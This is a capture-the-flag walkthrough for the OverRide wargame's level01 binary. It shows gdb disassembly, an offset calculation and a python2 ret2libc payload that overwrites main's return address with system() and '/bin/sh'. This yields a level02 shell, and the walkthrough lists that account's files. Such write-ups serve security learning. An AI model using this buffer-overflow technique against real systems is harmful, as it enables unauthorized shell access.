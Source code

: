 # Walkthrough

After examining the contents of the home directory, a binary file called `"level01"` was discovered. When executed, the program prompts the user to enter a username to connect to the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: samir
verifying username....

nope, incorrect username...
```

To gain a better understanding of the project, I attempted to reverse engineer the program using `gdb`. I started by listing the functions contained in the program and then disassembling the `main` function.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  printf
0x08048360  printf@plt
0x08048370  fgets
0x08048370  fgets@plt
0x08048380  puts
0x08048380  puts@plt
0x08048390  __gmon_start__
0x08048390  __gmon_start__@plt
0x080483a0  __libc_start_main
0x080483a0  __libc_start_main@plt
0x080483b0  _start
0x080483e0  __do_global_dtors_aux
0x08048440  frame_dummy
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
0x080485c0  __libc_csu_init
0x08048630  __libc_csu_fini
0x08048632  __i686.get_pc_thunk.bx
0x08048640  __do_global_ctors_aux
0x0804866c  _fini
```

The `main` function creates a buffer and subsequently clears it. then it prompts the user to enter a username using the `fgets` function and stores the content in a global variable called `"a_user_name"`.

```c
   0x080484d8 <+8>: sub    esp,0x60
   0x080484db <+11>: lea    ebx,[esp+0x1c]
   0x080484df <+15>: mov    eax,0x0
   0x080484e4 <+20>: mov    edx,0x10
   0x080484e9 <+25>: mov    edi,ebx
   0x080484eb <+27>: mov    ecx,edx
   0x080484ed <+29>: rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>: mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>: mov    DWORD PTR [esp],0x80486b8 // "********* ADMIN LOGIN PROMPT *********"
   0x080484fe <+46>: call   0x8048380 <puts@plt>
   0x08048503 <+51>: mov    eax,0x80486df // "Enter Username: "
   0x08048508 <+56>: mov    DWORD PTR [esp],eax
   0x0804850b <+59>: call   0x8048360 <printf@plt>
   0x08048510 <+64>: mov    eax,ds:0x804a020
   0x08048515 <+69>: mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>: mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>: mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>: call   0x8048370 <fgets@plt>
```

The program then calls the `verify_user_name()` function, which compares the `"a_user_name"` variable to a string called `"dat_wil"` that is no longer than 7 characters using the `strncmp` function.

```s
(gdb) disas verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>: push   ebp
   0x08048465 <+1>: mov    ebp,esp
   0x08048467 <+3>: push   edi
   0x08048468 <+4>: push   esi
   0x08048469 <+5>: sub    esp,0x10
   0x0804846c <+8>: mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>: call   0x8048380 <puts@plt>
   0x08048478 <+20>: mov    edx,0x804a040
   0x0804847d <+25>: mov    eax,0x80486a8
   0x08048482 <+30>: mov    ecx,0x7
   0x08048487 <+35>: mov    esi,edx
   0x08048489 <+37>: mov    edi,eax
   0x0804848b <+39>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>: seta   dl
   0x08048490 <+44>: setb   al
   0x08048493 <+47>: mov    ecx,edx
   0x08048495 <+49>: sub    cl,al
   0x08048497 <+51>: mov    eax,ecx
   0x08048499 <+53>: movsx  eax,al
   0x0804849c <+56>: add    esp,0x10
   0x0804849f <+59>: pop    esi
   0x080484a0 <+60>: pop    edi
   0x080484a1 <+61>: pop    ebp
   0x080484a2 <+62>: ret
```

If the result of the comparison is not equal to `0`, the program displays `"nope, incorrect username...\n."` Otherwise, the program prompts the user to enter a password, which is then stored in a buffer using the `fgets` function.

```s
   0x08048532 <+98>: mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>: cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>: je     0x8048550 <main+128>
   0x0804853d <+109>: mov    DWORD PTR [esp],0x80486f0 // "nope, incorrect username...\n"
   0x08048544 <+116>: call   0x8048380 <puts@plt>
   0x08048549 <+121>: mov    eax,0x1
   0x0804854e <+126>: jmp    0x80485af <main+223>
   0x08048550 <+128>: mov    DWORD PTR [esp],0x804870d // "Enter Password: "
   0x08048557 <+135>: call   0x8048380 <puts@plt>
   0x0804855c <+140>: mov    eax,ds:0x804a020
   0x08048561 <+145>: mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>: mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>: lea    eax,[esp+0x1c]
   0x08048571 <+161>: mov    DWORD PTR [esp],eax
   0x08048574 <+164>: call   0x8048370 <fgets@plt>
```

The buffer is then passed as a parameter to the `verify_user_pass` function, which compares the buffer to the string `"admin"` that is no longer than 5 characters using the `strncmp` function.

```s
(gdb) disas verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>: push   ebp
   0x080484a4 <+1>: mov    ebp,esp
   0x080484a6 <+3>: push   edi
   0x080484a7 <+4>: push   esi
   0x080484a8 <+5>: mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>: mov    edx,eax
   0x080484ad <+10>: mov    eax,0x80486b0
   0x080484b2 <+15>: mov    ecx,0x5
   0x080484b7 <+20>: mov    esi,edx
   0x080484b9 <+22>: mov    edi,eax
   0x080484bb <+24>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>: seta   dl
   0x080484c0 <+29>: setb   al
   0x080484c3 <+32>: mov    ecx,edx
   0x080484c5 <+34>: sub    cl,al
   0x080484c7 <+36>: mov    eax,ecx
   0x080484c9 <+38>: movsx  eax,al
   0x080484cc <+41>: pop    esi
   0x080484cd <+42>: pop    edi
   0x080484ce <+43>: pop    ebp
   0x080484cf <+44>: ret
```

If the result of the comparison is equal to `0`, the program displays `"nope, incorrect password...\n."` Otherwise, the program outputs the same message.

```s
   0x08048585 <+181>: mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>: cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>: je     0x8048597 <main+199>
   0x08048590 <+192>: cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>: je     0x80485aa <main+218>
   0x08048597 <+199>: mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>: call   0x8048380 <puts@plt>
   0x080485a3 <+211>: mov    eax,0x1
   0x080485a8 <+216>: jmp    0x80485af <main+223>
```

Upon analyzing the code, it becomes apparent that the size specified in the second `fgets()` function, along with the address of `esp+0x1c` (which points to the buffer), will exceed the address of `EBP` by 24 bytes. Armed with this knowledge, it is possible to change the return address of the `main` function to a new address within the `system` function, while also passing the "/bin/sh" parameter. However, in order to do this, it was necessary to determine the offset between the buffer and the return address. Consequently, I calculated the offset in the following manner:

```sh
>>> (0xffffd6e8 + 0x4) - 0xffffd69c // (EBP + 0x4 <=> return) - address of the buffer
80
```

Next, I needed to locate the address of the system function and determine how to pass the `"/bin/sh"` parameter to it. To achieve this, I followed these steps:

```s
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc mapping
process 1670
Mapped address spaces:

 Start Addr   End Addr       Size     Offset objfile
  0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
  0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
  0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
 0xf7e2b000 0xf7e2c000     0x1000        0x0
 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
 0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
 0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
 0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
 0xf7fd0000 0xf7fd4000     0x4000        0x0
 0xf7fd8000 0xf7fdb000     0x3000        0x0
 0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
 0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
 0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
 0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
 0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb)
```

To fill the buffer with the necessary information, I used Python to generate a string consisting of As that would overwrite the return address with the address of the system function. Additionally, I included randomly generated data for the return address of the `system()` function and the address of the "/bin/sh" parameter.

```sh
level2@RainFall:~$ python2 -c  'print("A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "BBBB" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/flag
```

Finally, all that remains is to input the `"dat_wil"` user as the first input, and the previously generated string as the second input. And that's all there is to it!

```sh
level01@OverRide:~$ (echo dat_wil; cat /tmp/flag -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cd ../level02
ls -la
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
```
